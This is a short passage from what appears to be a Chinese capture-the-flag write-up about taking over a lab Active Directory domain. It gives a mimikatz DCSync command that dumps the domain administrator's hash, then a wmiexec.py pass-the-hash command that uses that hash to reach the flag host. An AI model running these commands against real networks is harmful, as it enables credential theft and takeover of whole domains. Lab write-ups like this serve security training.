 
抓取域管哈希

```plain
>mimikatz_x64.exe "lsadump::dcsync /domain:xiaorang.lab /user:xiaorang\Administrator" exit
```

[![](assets/1705540441-0f16fc3aaf302637bde9e498bbcc4045.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174945-9421d2f6-b454-1.png)

使用 wmiexec 进行 PTH 即可获取 flag

```plain
proxychains wmiexec.py -hashes :4889f6553239ace1f7c47fa2c619c252 administrator@172.22.4.7 -codec gbk
```
